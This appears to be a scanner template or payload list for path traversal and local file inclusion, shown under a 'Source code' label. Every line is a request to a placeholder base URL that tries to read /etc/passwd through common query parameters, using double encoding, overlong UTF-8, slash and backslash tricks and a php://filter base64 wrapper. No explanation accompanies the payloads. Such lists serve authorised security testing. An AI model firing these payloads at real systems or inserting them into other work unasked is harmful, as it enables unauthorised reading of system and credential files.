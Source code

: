 - {{BaseURL}}/?q=%252e%252e%252fetc%252fpasswd%00&s=%252e%252e%252fetc%252fpasswd%00&search=%252e%252e%252fetc%252fpasswd%00&id=%252e%252e%252fetc%252fpasswd%00&action=%252e%252e%252fetc%252fpasswd%00&keyword=%252e%252e%252fetc%252fpasswd%00&query=%252e%252e%252fetc%252fpasswd%00&page=%252e%252e%252fetc%252fpasswd%00&keywords=%252e%252e%252fetc%252fpasswd%00&url=%252e%252e%252fetc%252fpasswd%00&view=%252e%252e%252fetc%252fpasswd%00&cat=%252e%252e%252fetc%252fpasswd%00&name=%252e%252e%252fetc%252fpasswd%00&key=%252e%252e%252fetc%252fpasswd%00&p=%252e%252e%252fetc%252fpasswd%00
- {{BaseURL}}/?q=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd&s=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd&search=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd&id=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd&action=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd&keyword=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd&query=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd&page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd&keywords=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd&url=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd&view=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd&cat=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd&name=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd&key=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd&p=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
- {{BaseURL}}/?q=....//....//etc/passwd&s=....//....//etc/passwd&search=....//....//etc/passwd&id=....//....//etc/passwd&action=....//....//etc/passwd&keyword=....//....//etc/passwd&query=....//....//etc/passwd&page=....//....//etc/passwd&keywords=....//....//etc/passwd&url=....//....//etc/passwd&view=....//....//etc/passwd&cat=....//....//etc/passwd&name=....//....//etc/passwd&key=....//....//etc/passwd&p=....//....//etc/passwd
- {{BaseURL}}/?q=..///////..////..//////etc/passwd&s=..///////..////..//////etc/passwd&search=..///////..////..//////etc/passwd&id=..///////..////..//////etc/passwd&action=..///////..////..//////etc/passwd&keyword=..///////..////..//////etc/passwd&query=..///////..////..//////etc/passwd&page=..///////..////..//////etc/passwd&keywords=..///////..////..//////etc/passwd&url=..///////..////..//////etc/passwd&view=..///////..////..//////etc/passwd&cat=..///////..////..//////etc/passwd&name=..///////..////..//////etc/passwd&key=..///////..////..//////etc/passwd&p=..///////..////..//////etc/passwd
- {{BaseURL}}/?q=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd&s=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd&search=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd&id=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd&action=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd&keyword=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd&query=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd&page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd&keywords=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd&url=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd&view=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd&cat=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd&name=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd&key=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd&p=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
- {{BaseURL}}/?q=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd&s=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd&search=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd&id=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd&action=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd&keyword=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd&query=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd&page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd&keywords=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd&url=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd&view=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd&cat=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd&name=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd&key=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd&p=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
- {{BaseURL}}/?url=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
- {{BaseURL}}/?redirect=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
- {{BaseURL}}/?page=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
- {{BaseURL}}/?q=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd
- {{BaseURL}}/image?filename=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd
- {{BaseURL}}/image?name=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd